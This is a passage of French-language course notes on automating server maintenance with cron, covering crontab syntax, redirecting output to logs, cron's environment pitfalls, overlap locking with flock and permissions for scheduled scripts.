


# Automatisation et surveillance

## L'idée en une image {diapos="5, 9, 10"}

Un immeuble bien tenu ne dépend pas de la présence de son propriétaire. Il tient parce que deux
objets, très bêtes chacun, travaillent ensemble.

Le premier est une **horloge à minuterie** dans la cage d'escalier. Elle ne sait rien faire d'autre
que pousser un bouton à des moments décidés d'avance : à 3 h du matin, tous les jours ; le premier
lundi du mois ; toutes les quinze minutes. Elle ne juge pas, elle ne s'adapte pas, elle ne se
souvient de rien. Elle pousse.

Le second est le **concierge de nuit**. Quand le bouton est poussé, il fait sa ronde : il vérifie
que la chaufferie tourne, il vide ce qui traîne, il note ce qu'il a vu dans un **cahier de ronde**
laissé sur le comptoir. Le lendemain matin, tu ne l'as pas vu travailler — tu lis son cahier.

En administration de serveur, l'horloge s'appelle **`cron`** : c'est un *planificateur de tâches*,
un programme dont l'unique métier est de déclencher d'autres programmes à des moments prévus. Le
concierge, c'est ton **script** — un fichier de code exécuté sans qu'aucun humain ne soit là. Et le
cahier de ronde, c'est le **journal** : un fichier texte où le script écrit ce qu'il a fait, parce
qu'un travail que personne ne peut relire n'a, en pratique, pas eu lieu.

**Où l'analogie casse — trois fois, et chacune coûte cher.**

1. **Le concierge improvise, le script jamais.** Un humain qui trouve la chaufferie inondée appelle
   quelqu'un ; un script fait exactement ce qui est écrit, y compris une bêtise, et il la refait
   toutes les cinq minutes sans se lasser.
2. **L'absence du concierge se voit ; l'absence du script, non.** Un immeuble non entretenu finit
   par se salir. Une tâche `cron` qui a cessé de s'exécuter ne produit **rien du tout** — et
   « rien » ressemble, dans un journal, exactement à « tout va bien ». C'est le mode d'échec le
   plus fréquent de toute cette leçon.
3. **L'horloge du hall n'ouvre aucune porte.** `cron`, lui, exécute avec les **droits d'un
   utilisateur**, souvent `root` : c'est un mécanisme qui lance du code privilégié, à heure fixe,
   sans surveillance. Qui peut écrire dans une crontab peut exécuter ce qu'il veut sur la machine.

::: cours
La séance 4 du cours 420-B10-HU (millésime 2026, paquet de 70 diapositives) porte, à l'horaire, le
titre « Automatisation des tâches de surveillance et nettoyage » ; le support, lui, s'ouvre sur
« Tâches cédulées et scriptage ». Elle enseigne trois choses, dans cet ordre : le **rôle du
scriptage** dans l'entretien d'un serveur, la **configuration de crontab** — les cinq champs, les
opérateurs, `crontab -e`, la redirection de la sortie vers un fichier — et le **scriptage en PHP**
exécuté hors du serveur web, sur deux cas : purger une table, surveiller et relancer un service.
Les sept exercices de la feuille de la séance portent exactement sur cette mécanique : écrire des
expressions, planifier un script, journaliser sa sortie, purger une table.
:::

::: complement
La diapositive 6 annonce le **traitement des fichiers** parmi les sujets du cours ; la diapositive
11 restreint le programme à la configuration de crontab et au scriptage PHP, et aucune
démonstration de lecture de fichier n'est donnée dans les 70 diapositives. C'est pourtant ce qu'un
script de surveillance fait le plus souvent : la section « Lire un journal ligne à ligne » le comble
avec la base de connaissances. Une bonne part de cette leçon est dans le même cas — mesuré en mot
entier sur les vingt et un paquets de diapositives des deux cours, `MAILTO`, `/etc/cron.d`,
`flock`, `@reboot`, les timers `systemd`, `journalctl`, `escapeshellarg`, `proc_open`, `fail2ban`
et le signal de vie n'apparaissent **nulle part**. Les renvois posés en tête de chaque section
disent lesquelles viennent du cours et lesquelles n'en viennent pas — ce qui est autrement plus
utile qu'une promesse sur le contenu de l'examen, que personne ici n'est en position de tenir.
:::

## En bref — la marche à suivre {hors-cours}

:::: marche-a-suivre {titre="Planifier un script de surveillance, et pouvoir relire ce qu'il a fait"}

1. {voir="PHP en ligne de commande"} Écris le script, puis **lance-le à la main** avant de parler de
   planification : un script qui ne tourne pas dans ton terminal ne tournera pas mieux sous `cron`.

   ```bash
   php /opt/scripts/surveiller.php   # à la main, dans ton terminal : ici le PATH de ta session suffit
   ```

2. {voir="Les pièges de cron que le cours ne couvre pas"} Relève le chemin **absolu** de
   l'interpréteur, et remplace dans le script tout chemin relatif par `__DIR__` : `cron` ne lit ni
   `.bashrc` ni `.profile`, et son répertoire courant n'est pas le tien.

   ```bash
   which php        # /usr/bin/php — c'est CE chemin-là qui va dans la crontab
   ```

3. {voir="Les trois commandes à connaître"} Sauvegarde la table existante avant de l'ouvrir, puis
   ouvre-la — à la première utilisation, `cron` demande quel éditeur employer.

   ```bash
   crontab -l > ~/crontab.$(date +%F).bak   # deux secondes, et rien à réécrire de mémoire
   crontab -e
   ```

4. {voir="La syntaxe : cinq champs, puis la commande"} Écris les **cinq champs** dans l'ordre —
   minute, heure, jour du mois, mois, jour de la semaine — puis la commande, en chemins absolus des
   deux côtés.

5. {voir="Lire une expression : les quatre du cours"} Vérifie l'expression sur `crontab.guru`
   **avant** de la déposer, et regarde les **prochaines dates** plutôt que la traduction en
   français : une expression peut se traduire juste et ne pas partir quand tu le crois.

6. {voir="Rediriger la sortie : sans journal, pas de surveillance"} Redirige la sortie avec `>>`, et
   ajoute `2>&1` **après** elle — sinon les erreurs partent dans un courriel que personne ne lit.

   ```bash
   */5 * * * *  /usr/bin/php /opt/scripts/surveiller.php >> /var/log/mesScripts/surveiller.log 2>&1
   ```

7. Sauvegarde, quitte l'éditeur, puis **relis la table telle que `cron` l'a enregistrée** et regarde
   le journal se remplir en direct pendant deux minutes.

   ```bash
   crontab -l                                   # la table telle qu'elle a été enregistrée
   tail -f /var/log/mesScripts/surveiller.log   # la preuve que la tâche part vraiment
   ```

8. {voir="Permissions du script planifié"} Verrouille le script **et chaque répertoire de son
   chemin** — ci-dessous pour une tâche qui vit dans la crontab de `root`, à ajuster au compte de
   service si elle vit ailleurs : un fichier lancé par `root` et modifiable par un autre compte est
   une élévation de privilèges qui n'attend que sa minute.

   ```bash
   sudo chown root:root /opt/scripts/surveiller.php && sudo chmod 700 /opt/scripts/surveiller.php
   sudo chmod 755 /opt /opt/scripts   # chaque répertoire du chemin, pas seulement le fichier
   ```

9. {voir="Trois règles avant d'écrire une seule ligne de suppression"} **Si le script détruit quoi
   que ce soit**, fais-le commencer en mode simulation : il compte, il journalise le nombre, et il
   ne supprime que sur argument explicite.

::::

## Pourquoi automatiser : le rôle du scriptage {diapos="5, 7-11"}

Depuis le début du programme, tu écris des programmes qui s'exécutent **dans** un environnement :
un serveur web reçoit une requête, ton code répond. Personne ne t'a encore demandé de programmer
**l'environnement lui-même** — la machine, ses fichiers, ses services, ses journaux. C'est le
métier du **scriptage d'exploitation**, et c'est le sujet de cette séance.

Les besoins sont toujours les mêmes, quelle que soit l'application hébergée.

| Besoin | Exemple concret | Ce qui arrive si personne ne le fait |
| --- | --- | --- |
| Surveiller les tentatives de connexion | compter les échecs SSH ou applicatifs pour détecter un *brute force* (une attaque par essais répétés) | l'attaquant dispose d'un temps illimité, et sa réussite passe inaperçue |
| Nettoyer de vieilles données | purger une table d'imports de plus d'un an, faire tourner les journaux | le disque se remplit, puis la base refuse d'écrire |
| Vérifier les activités des utilisateurs | repérer un compte qui lit un dossier auquel il ne devrait pas accéder | une fuite n'est découverte qu'au moment où elle est publique |
| Produire des rapports d'état | pics d'utilisation, volume de requêtes, espace disque restant | aucune tendance visible : on ne voit que la panne, jamais son approche |
| Redémarrer un service planté | Apache ou MariaDB tombe à 3 h du matin | le site est hors ligne jusqu'à ce qu'un humain se réveille |

Avant l'automatisation, ces tâches se font **à la main, quand quelqu'un y pense** — donc jamais la
nuit, jamais la fin de semaine, et jamais deux fois de la même façon. Le gain n'est pas la
vitesse : un humain vérifie un service en dix secondes. Le gain est la **régularité** et la **trace
écrite**.

Voici la boucle complète, telle qu'elle tourne sur un serveur en production. Lis-la une fois avant
de continuer : tout le reste de la leçon en est un morceau.



Le cours s'arrête à **Action corrective**, et c'est déjà beaucoup pour une séance. Les deux
branches ajoutées ici — le **signal de vie** et la **journalisation de l'action** — sont exactement
ce qui distingue un script d'exercice d'un script d'exploitation. Retiens leur existence
maintenant ; leur mécanique est expliquée à la fin de la section sur les pièges.

## Crontab : cinq champs et une commande {diapos="12, 13, 17"}

`cron` est le démon — c'est-à-dire un programme qui tourne en permanence en arrière-plan — chargé
de la planification. La **crontab** (*cron table*) est la table qu'il lit : une ligne par tâche.

### Les trois commandes à connaître {diapos="13-16"}

```bash
crontab -e               # éditer SA crontab (l'éditeur est demandé la 1re fois)
crontab -l               # afficher SA crontab, sans l'ouvrir
crontab -r               # SUPPRIMER toute sa crontab, sans aucune confirmation
crontab -u www-data -l   # (en root) lire la crontab d'un AUTRE utilisateur
crontab -l > ~/crontab.$(date +%F).bak   # le réflexe : sauvegarder avant d'éditer
```

À la **première** utilisation, `cron` demande quel éditeur de texte employer — le cours choisit
`vim.basic`, c'est-à-dire `vi`, vu à la séance 2. On en sort comme partout ailleurs dans `vi` :
`Échap` pour repasser en mode commande, puis `:wq` et `Entrée`. C'est tout ce que le cours montre
de cette commande ; les quatre autres lignes ci-dessus sont des réflexes d'exploitation, pas de la
matière de la séance.

::: attention
Retiens `crontab -r` — pour ne **jamais** le taper : il supprime toute la table sans demander
confirmation, il n'existe pas de corbeille, et `-e` et `-r` sont voisins au clavier. La ligne de
sauvegarde ci-dessus coûte deux secondes et t'évite de réécrire de mémoire une planification que tu
avais mis une heure à régler.
:::

Le démon relit les crontabs et **évalue les lignes une fois par minute**. Deux conséquences
concrètes : une tâche ne peut pas s'exécuter plus souvent que toutes les minutes, et une expression
qui viserait une granularité plus fine — « toutes les 30 secondes » — ne s'écrit pas. Pour du
sous-minute, `cron` n'est pas l'outil.

### La syntaxe : cinq champs, puis la commande {diapos="18-32"}

```bash
# ┌───────────── minute        (0-59)
# │ ┌─────────── heure         (0-23)
# │ │ ┌───────── jour du mois  (1-31)
# │ │ │ ┌─────── mois          (1-12 ou jan-dec)
# │ │ │ │ ┌───── jour semaine  (0-7, 0 ET 7 = dimanche, ou sun-sat)
# * * * * *  commande à exécuter
0 3 * * *  /usr/bin/php /opt/scripts/purge.php
```

Les cinq champs sont séparés par des espaces, dans cet ordre, **toujours**. Tout ce qui suit le
cinquième champ est la commande — `cron` ne compte pas les mots pour toi, il prend le reste de la
ligne telle quelle.

Chaque champ accepte les mêmes opérateurs.

| Opérateur | Exemple | Sens |
| --- | --- | --- |
| `*` | `* * * * *` | toutes les valeurs du champ : ici, chaque minute |
| `,` | `0 0 * * 1,3,5` | lundi, mercredi et vendredi à minuit |
| `-` | `0 15 * * 1-5` | tous les jours de semaine à 15 h |
| `*/n` | `*/15 * * * *` | toutes les 15 min : minutes 0, 15, 30 et 45 |
| `a-b/n` | `*/5 1-23/2 * * *` | toutes les 5 min, uniquement aux heures impaires |
| `@` | `@daily`, `@hourly`, `@reboot` | raccourcis nommés ; `@daily` vaut `0 0 * * *` |

Trois précisions font la différence entre une expression qui se lit bien et une expression qui se
déclenche au bon moment. **`*/n` part toujours du minimum du champ**, pas de l'instant présent :
`*/15` en minutes donne 0, 15, 30, 45, et `*/2` en mois — dont le minimum est 1 — donne janvier,
mars, mai… et non février, avril, juin. **`@reboot` n'est pas une expression temporelle** : il
déclenche au démarrage du démon `cron`, ce qui sert à relancer un processus de fond et ne sert à
rien pour une tâche périodique. Enfin, **les raccourcis `@` sont absents du cours** — mesuré, ni
`@daily` ni `@reboot` n'apparaissent sur une seule des 70 diapositives —, mais ils rendent une
crontab bien plus lisible qu'une rangée d'étoiles.

::: note
**Le champ jour-de-semaine va de `0` à `7`**, et non `0` à `6` comme l'écrit la diapositive 19 :
`0` et `7` désignent tous deux le dimanche, ce doublon existant pour accommoder les deux conventions
en usage. Écrire `0` pour dimanche est donc toujours juste, et c'est la seule forme que le cours
emploie. En lisant une crontab existante, en revanche, un `7` n'est pas une erreur.
:::

::: attention
**Jour-du-mois et jour-de-semaine se combinent en OU, pas en ET.** `0 0 13 * 5` ne veut **pas**
dire « le vendredi 13 » : cela veut dire « le 13 de chaque mois **ou** tous les vendredis ». Dès
que ces deux champs valent autre chose que `*`, `cron` fait l'union des deux. C'est le seul endroit
de la syntaxe où l'intuition trompe systématiquement. Pour un vrai vendredi 13 : planifier tous les
13 du mois, et tester le jour de la semaine **dans le script**.
:::

::: correction-du-cours {diapos="31" source="Support de la séance 4 (millésime 2026), diapositive 31, « Cas #5 : Tous les samedis à 3 heures du matin », où l'expression est écrite `0 3 * * * 6` — relevé sur l'extrait de diapositives le 2026-09-10 ; crontab(5) — https://man7.org/linux/man-pages/man5/crontab.5.html"}
**Un sixième champ dans une crontab utilisateur est une erreur silencieuse — et la diapositive 31 en
contient un.** Le cas n° 5 y écrit « tous les samedis à 3 h » sous la forme `0 3 * * * 6`, qui compte
**six** champs. `cron` n'en lit que cinq : il prendrait `6` pour le premier mot de la commande,
chercherait un programme nommé `6`, et échouerait chaque nuit en silence. La forme correcte est
`0 3 * * 6` — ou `0 3 * * sat`. Les cinq autres cas de la série, diapositives 27 à 32, sont justes ;
c'est une coquille, pas une règle à apprendre.
:::

::: cours {diapos="38-42"}
**La méthode de travail compte autant que la syntaxe**, et le cours y consacre cinq diapositives.
Ne mémorise pas les expressions : **vérifie-les** sur `crontab.guru`, dont la diapositive 38 donne
l'adresse, en quatre gestes — cliquer un exemple pour obtenir la syntaxe ; **modifier l'expression
et lire la phrase explicative qui s'ajuste** ; cliquer « Next » pour voir les **prochaines dates
d'exécution réelles** ; cliquer « random » comme entraînement, en devinant le sens avant de lire
l'explication. C'est le troisième geste qui compte le plus : une expression peut se traduire
correctement en français **et** ne pas se déclencher quand tu le crois.
:::

::: exercice-du-cours {ref="1"}
Écris chaque expression **avant** de la vérifier : c'est l'écart entre ta réponse et l'explication
de l'éditeur en ligne qui t'apprend quelque chose. Trois pièges sont tendus. Le cas « minuit trente, du lundi au
vendredi » se trompe d'ordre : le premier champ est la **minute**, donc `30 0 * * 1-5` — et non
`0 30 * * 1-5`, dont le `30` tombe dans le champ des heures, une valeur hors plage que `cron`
refuse en bloc au chargement. Le cas « lundi, jeudi et dimanche » demande de se rappeler
que dimanche vaut `0`. Et le dernier est le plus intéressant : `*/15` produit forcément la minute
45, donc il faut **énumérer** les minutes voulues au lieu de diviser.
:::

### Lire une expression : les quatre du cours {diapos="33-37"}

Le cours s'arrête sur quatre expressions et demande, en classe, ce qu'elles font. Les voici avec la
réponse que la diapositive 37 donne elle-même — c'est le format exact d'une question posée en
classe, et il vaut mieux les relire une fois de plus que de les découvrir le jour venu.

| Expression | Ce qu'elle déclenche |
| --- | --- |
| `*/15 * * * *` | toutes les 15 minutes — donc aux minutes 0, 15, 30 **et** 45 |
| `0 0,6,12,18 * * *` | à minuit, 6 h, midi et 18 h, tous les jours |
| `0 0 1 1 *` | une fois par année : le 1er janvier à minuit |
| `0 0 * * 1,2` | les lundis et les mardis, à minuit |

Relis-les de gauche à droite, du plus fin au plus grossier : minute, heure, jour du mois, mois, jour
de la semaine. La deuxième est celle qu'on lit le plus souvent de travers — la virgule **énumère**
quatre heures précises, elle ne décrit aucune cadence ; `0 */6 * * *` produirait exactement les mêmes
quatre déclenchements, par l'autre écriture. La quatrième rappelle que `1,2` désigne des **jours de
la semaine**, lundi et mardi, et non les 1er et 2 du mois : c'est le cinquième champ, pas le
troisième.

### Quand une seule expression ne suffit pas {diapos="43, 44"}

Certaines règles ne s'expriment pas en une ligne : « toutes les 15 min en semaine, toutes les
60 min la fin de semaine » demande deux cadences, et un champ de `cron` n'en porte qu'une.

::: cours
La réponse du cours est explicite, et elle est attendue à l'examen : **exécuter le script plus
souvent que nécessaire, et ajouter la validation manquante dans le script**. L'exemple donné
planifie `*/15` et sort tôt du programme quand la condition n'est pas remplie : si le jour est
samedi ou dimanche et que la minute n'est pas 0, on quitte immédiatement.
:::

::: complement
L'autre voie, souvent plus propre, est de **découper la règle en deux lignes de crontab**. Chaque
ligne reste lisible par n'importe qui, et la logique de planification ne se cache pas au milieu du
code applicatif — là où personne ne pense à la chercher quand la tâche se déclenche au mauvais
moment. Le prix à payer est une duplication : deux lignes à modifier au lieu d'une.
:::

::: exercice-du-cours {ref="7"}
Cet exercice se résout avec l'opérateur `a-b/n` du tableau plus haut, et il demande **deux lignes**
de crontab plutôt qu'une : les heures impaires s'écrivent `1-23/2` et les heures paires `0-22/2`,
chacune avec sa propre cadence de minutes. Fais pointer les deux lignes vers le même journal :
tu verras alors, dans un seul fichier, les deux rythmes alterner d'heure en heure — c'est la
vérification la plus rapide que ton expression fait bien ce que tu crois.
:::

## Rediriger la sortie : sans journal, pas de surveillance {diapos="21, 57, 63"}

C'est le point que le cours survole et qui cause le plus de dégâts en pratique. Mesuré : la seule
redirection montrée en 70 diapositives est le chevron simple de la diapositive 21, et deux
diapositives — 57 et 63 — se contentent de constater qu'« on voit la trace dans le fichier log ».
Ni `>>`, ni `2>&1`, ni `/dev/null` n'apparaissent nulle part ; ce sont pourtant eux qui décident si
ce fichier de trace est lisible dans six mois.

Quand tu lances un programme dans un terminal, il écrit sur deux canaux distincts : la **sortie
standard** (`stdout`, le résultat normal) et la **sortie d'erreur** (`stderr`, les messages
d'erreur). Sous `cron`, il n'y a pas de terminal : `cron` **capte** ces deux canaux et en fait un courriel
adressé au propriétaire de la crontab (voir « Le courriel de cron » plus bas) — et sur une machine
sans serveur de messagerie, ce courriel est produit puis jeté. Trois opérateurs du shell servent à
les diriger vers un fichier que tu pourras réellement lire.

- `>` **écrase** le fichier de destination à chaque exécution ;
- `>>` **ajoute** à la fin du fichier, sans toucher à ce qui y était déjà ;
- `2>&1` dit « envoie aussi le canal n° 2 (`stderr`) là où va déjà le canal n° 1 (`stdout`) ».

:::: comparaison
::: vulnerable
```bash
30 12 1 6 *  php script.php > /resultatCrontab/resultat.txt
```

{lignes="1"} `>` écrase le fichier à **chaque** exécution : au bout d'un an de fonctionnement, ce
journal contient une seule ligne, celle de la dernière exécution. Tout l'historique — donc toute
possibilité de constater une tendance ou de dater un incident — est perdu.

{lignes="1"} Aucune redirection de `stderr` : si le script lève une erreur PHP, le message
n'apparaît **nulle part** dans ce fichier. Le journal montrera un succès partiel, ou rien, et la
panne restera invisible.

{lignes="1"} `php` et `script.php` sont écrits en chemins **relatifs**. Cela fonctionne dans ton
terminal, parce que ton shell de session sait où trouver `php` et dans quel répertoire tu te
trouves. Sous `cron`, ces deux garanties disparaissent — la section suivante explique pourquoi.
:::
::: corrige
```bash
30 12 1 6 *  /usr/bin/php /opt/scripts/script.php >> /var/log/mesScripts/resultat.log 2>&1
```

{lignes="1"} `>>` conserve l'historique : chaque exécution ajoute ses lignes à la suite. C'est ce
qui rend le fichier lisible avec `tail -f`, et comparable d'un jour à l'autre.

{lignes="1"} `2>&1` capture les erreurs dans le même fichier, et il doit venir **après** la
redirection de `stdout` — l'ordre compte : écrit avant `>>`, il enverrait `stderr` là où `stdout`
allait *auparavant*, c'est-à-dire dans le courriel de `cron`, pendant que seul `stdout` atterrirait
dans le journal.

{lignes="1"} Les deux chemins sont absolus, pour l'interpréteur comme pour le script, et le journal
vit sous `/var/log/`, où l'administrateur va le chercher — pas dans un dossier inventé à la racine.
:::
::::

Une troisième forme existe, et elle est légitime :

```bash
# Silence total — à n'employer QUE si le script journalise lui-même
0 * * * *    /usr/bin/php /opt/scripts/script.php > /dev/null 2>&1
```

`/dev/null` est le fichier spécial qui jette tout ce qu'on lui écrit : cette ligne dit « je ne veux
ni la sortie ni les erreurs ». C'est acceptable quand le script tient son propre journal, et c'est
une faute quand il n'en tient pas — tu obtiens alors une tâche parfaitement muette, dont personne
ne saura jamais si elle a fonctionné.

### Le courriel de cron {hors-cours}

Par défaut, **toute sortie d'une tâche `cron` est envoyée par courriel** au propriétaire de la
crontab, via le serveur de messagerie local. Cela explique pourquoi `cron` ne se plaint jamais : il
considère qu'il t'a déjà écrit.

```bash
MAILTO="ops@exemple.ca"      # destinataire des sorties et des erreurs ; MAILTO="" désactive l'envoi
PATH=/usr/local/bin:/usr/bin:/bin
SHELL=/bin/bash
*/5 * * * *  /usr/bin/php /opt/scripts/surveiller.php >> /var/log/surveiller.log 2>&1
```

Ces trois affectations se placent **avant** les lignes de tâches et valent pour toute la suite du
fichier. `MAILTO` choisit le destinataire, `PATH` élargit la liste des répertoires où `cron`
cherche les programmes, `SHELL` choisit l'interpréteur qui exécutera les commandes.

::: attention
Sur la plupart des serveurs modernes, **aucun serveur de messagerie n'est installé** : le courriel
de `cron` est produit, puis jeté sans que rien ne le signale. Ne fais jamais de `MAILTO` ton unique
canal d'alerte sans l'avoir testé pour de vrai — envoie-toi volontairement une erreur, et vérifie
que tu la reçois. Un canal d'alerte non testé est une croyance, pas une alerte.
:::

::: complement
Sur un système à `systemd`, une tâche lancée par un *timer* voit sa sortie capturée automatiquement
par **`journald`**, le service de journalisation du système : plus besoin d'écrire `>> fichier
2>&1`, la sortie se relit avec `journalctl -u <unité>`, horodatée et déjà découpée par exécution.
L'avantage n'est pas cosmétique : la rotation, la limite de taille et le filtrage par date sont
gérés par le système, là où un fichier `.log` grossit jusqu'à remplir le disque si personne n'y
pense. La méthode du cours reste `>> … 2>&1`, et c'est elle que la séance enseigne.
:::

::: exercice-du-cours {ref="2"}
Le script tient en trois lignes autour de `date()` — la mécanique du PHP en ligne de commande est
détaillée à la fin de cette leçon, mais tu n'en as pas besoin ici. Le vrai contenu de l'exercice est
le **fuseau horaire** : la plupart des fournisseurs livrent leur machine en UTC, donc ton serveur
affichera une heure décalée de quatre ou cinq heures par rapport au Québec. `timedatectl` affiche
le fuseau du système et `sudo timedatectl set-timezone America/Toronto` le corrige ; fixer le fuseau
**dans le script** avec `date_default_timezone_set('America/Toronto')` est la ceinture qui va avec
ces bretelles, puisque le script devient alors indépendant de la machine qui l'exécute.
:::

::: exercice-du-cours {ref="3"}
Reprends exactement la ligne corrigée de la comparaison ci-dessus : cadence `* * * * *`, chemin
absolu vers `/usr/bin/php`, redirection en `>>` et non en `>` — c'est tout l'objet de l'exercice,
puisque avec `>` tu ne verrais jamais qu'une seule ligne. `tail -f` affiche les nouvelles lignes au
fur et à mesure : laisse-le tourner deux minutes, la date doit apparaître d'elle-même. Si rien ne
vient, ne modifie pas l'expression au hasard — vérifie d'abord que le script s'exécute à la main,
puis que le chemin de `php` est bien celui que donne `which php`.
:::

## Où vivent les tâches : trois emplacements, un champ de différence {hors-cours}

Tout ce qui précède décrit **ta** crontab, celle qu'ouvre `crontab -e`. Ce n'est pas le seul
endroit d'où `cron` lit des tâches, et la différence entre ces endroits tient à un champ.

| Emplacement | Comment on l'édite | Champ utilisateur | Usage normal |
| --- | --- | --- | --- |
| Crontab utilisateur (`/var/spool/cron/crontabs/<user>`) | `crontab -e` | **Non** — 5 champs | tâches d'une application, sous son propre compte |
| `/etc/crontab` | éditeur de texte, en root | **Oui** — 6 champs | tâches système historiques |
| `/etc/cron.d/<nom>` | un fichier par paquet ou application | **Oui** — 6 champs | la bonne place pour une tâche déployée |
| `/etc/cron.{hourly,daily,weekly,monthly}/` | on y dépose un script exécutable | sans objet | tâches sans heure précise |

La logique est simple. Une crontab utilisateur appartient à **une** personne : `cron` sait déjà
sous quelle identité exécuter, il n'a pas besoin qu'on le lui dise. Les fichiers système, eux, sont
partagés : il faut donc préciser, en **sixième position**, sous quel compte la commande s'exécute.

```bash
# /etc/cron.d/purge-imports  —  NOTER le champ utilisateur en 6e position
15 3 * * *  www-data  /usr/bin/php /opt/app/scripts/purge.php >> /var/log/app/purge.log 2>&1
```

::: attention
**Oublier le champ utilisateur dans `/etc/cron.d` est l'erreur n° 1 de cette famille.** `cron` lit
alors ton premier mot de commande comme un nom d'utilisateur, ne le trouve pas, abandonne — et ne
le dit que dans le journal du service, que personne ne consulte : `journalctl -u cron`. Le fichier
doit par ailleurs appartenir à `root` et **ne pas être exécutable** — `crontab(5)` exige un fichier
ordinaire, non exécutable et non inscriptible par le groupe ou les autres ; sinon `cron` l'ignore.
:::

Comment choisir ? En pratique : une tâche qui appartient à une **application déployée** va dans
`/etc/cron.d`, une tâche dont l'heure exacte est indifférente va dans `/etc/cron.daily`, et tout le
reste tient dans ta crontab utilisateur. L'intérêt de `/etc/cron.d` n'est pas technique, il est
organisationnel : le fichier se **livre avec l'application**, il se relit dans une revue de code,
et il disparaît quand on désinstalle. Une ligne cachée dans la crontab personnelle d'un employé
disparaît, elle, le jour où l'on supprime son compte — et personne ne saura jamais ce qu'elle
faisait.

## Les pièges de cron que le cours ne couvre pas {hors-cours}

Les vrais problèmes de `cron` ne sont **pas** la syntaxe. Une expression fausse se voit tout de
suite ; les pièges ci-dessous produisent des tâches qui ont l'air de fonctionner.

**1. L'environnement est minimal.** `cron` n'exécute ni `.bashrc` ni `.profile`. Le `PATH` — la
liste des répertoires où le système cherche les programmes — se réduit typiquement à
`/usr/bin:/bin` ; `$HOME` est bien celui du propriétaire de la crontab — `cron` le fixe depuis
`/etc/passwd` — mais **aucune** variable de ta session n'est chargée, ni aucune de celles de ton
application. C'est la cause n° 1 du fameux « ça marche dans mon terminal, mais pas
dans cron ». La parade est mécanique : **chemins absolus partout**, pour l'interpréteur (`which
php` te donne `/usr/bin/php`) comme pour chaque fichier touché.

**2. Le répertoire courant n'est pas garanti.** N'écris jamais `require 'config.php'` dans un
script planifié : écris `require __DIR__ . '/config.php'`, qui se résout par rapport à
l'emplacement du fichier et non par rapport au répertoire d'où l'on a lancé le programme. Même
règle pour toute écriture de fichier en chemin relatif.

**3. La sortie se perd.** C'est la section précédente : sans `>>` ni `2>&1`, une erreur PHP
disparaît. **Un script `cron` muet n'est pas un script qui marche.**

**4. Le caractère `%` n'est pas un caractère comme les autres.** Dans une ligne de crontab, un `%`
non échappé est traduit en saut de ligne, et tout ce qui suit le premier `%` est envoyé au programme
sur son entrée standard au lieu de faire partie de la commande. Une commande aussi banale que
`date +%F` ne fait donc pas ce que tu crois une fois collée dans une crontab : il faut écrire
`date +\%F`. C'est `crontab(5)` qui le spécifie, et cette règle ne vaut que dans une crontab —
elle disparaît dès que la commande vit dans un script.

**5. Les exécutions se chevauchent.** Une tâche planifiée `*/5` qui met sept minutes à finir voit
une deuxième instance démarrer avant la fin de la première : deux purges concurrentes, deux
redémarrages simultanés, deux écritures entrelacées dans le même journal. `cron` ne vérifie rien —
il déclenche, c'est tout.

```bash
# flock : la 2e instance abandonne immédiatement (-n) si le verrou est déjà pris
*/5 * * * *  /usr/bin/flock -n /var/lock/purge.lock /usr/bin/php /opt/scripts/purge.php >> /var/log/purge.log 2>&1
```

`flock` prend un verrou sur un fichier avant de lancer la commande, et le relâche à la fin. Avec
`-n`, une instance qui trouve le verrou pris renonce au lieu d'attendre — ce qui est presque
toujours ce qu'on veut pour une tâche périodique : la prochaine occurrence arrive dans cinq
minutes.

**6. Le fuseau horaire est celui du système.** Pas celui de ton application, pas celui de ton
navigateur : un serveur laissé en UTC exécute ta tâche de « minuit » à 19 h ou 20 h heure du Québec.
Le réglage lui-même — `timedatectl` pour l'afficher, `sudo timedatectl set-timezone America/Toronto`
pour le corriger — est l'objet de l'**exercice 2** de la séance, et il est enseigné en diapositives
dans l'autre cours du programme, celui de PHP, au chapitre du déploiement. Ce que **ni l'un ni
l'autre** ne dit tient au comportement propre de `cron`. Au passage à l'heure avancée, il
**rattrape** de lui-même : un décalage de moins de trois heures fait exécuter aussitôt les tâches à
heure fixe que le saut de printemps aurait sautées, et empêche de rejouer celles de l'heure répétée
à l'automne (`cron(8)`, *Daylight Saving Time and other time changes*). Ce filet ne couvre **que**
les tâches à heure fixe ou de granularité supérieure à l'heure : une tâche `*/15` est planifiée
normalement, donc elle saute ou se rejoue selon le sens du changement. Pour tout ce qui n'est pas
idempotent — tout ce qu'une double exécution abîmerait — et qui tourne plus souvent qu'à l'heure,
évite la plage 2 h-3 h.

**7. L'échec silencieux.** C'est le pire, et c'est le point n° 2 de l'analogie du concierge : la
